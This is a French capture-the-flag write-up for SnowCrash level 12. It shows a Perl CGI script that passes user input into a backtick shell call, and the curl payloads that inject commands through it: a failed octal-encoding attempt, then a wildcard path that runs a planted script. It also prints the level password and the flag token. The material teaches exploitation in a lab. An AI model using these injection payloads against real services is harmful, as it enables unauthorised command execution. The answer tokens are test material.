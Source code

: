 # LEVEL 12

**LOGIN: level12**

**PASSWORD: fa6v5ateaw21peobuub8ipe6s**

 ----

```
level12@SnowCrash:~$ ls
level12.pl
```

```
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Toujours un exploit subshell à cette ligne : ```@output = `egrep "^$xx" /tmp/xd 2>&1`; ```

Mais `$xx` est mise en majuscule puis tronquée au premier espace: 


Premier essaie est de passé une string en octal pour éviter les mofifications

`echo "getflag >/tmp/exploit" > /tmp/1`
```
`curl 192.168.0.15:4646\?x="\`\$'\057\164\155\160\057\061'\`"
```
Il se passe pas grand chose, on a acces aux logs
``` 
tail -f /var/log/apache2/error.log

[error] [client 192.168.0.18] sh: 1: 
[error] [client 192.168.0.18] $\\057\\164\\155\\160\\057\\061: not found
```

Arf le subshell invoqué est `sh`et ne peut pas expand une string octale :((( solution en attente....

Deuxieme technique, on rename le fichier /tmp/1 en /tmp/1111 et on va utiliser un Wildcard pour trouver notre script sans utiliser de lettre : 

`curl 192.168.0.15:4646\?x=/*/1111`

```
cat /tmp/exploit
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

**TOKEN :g1qKMiRpXf53AWhDaU7FEkczr**
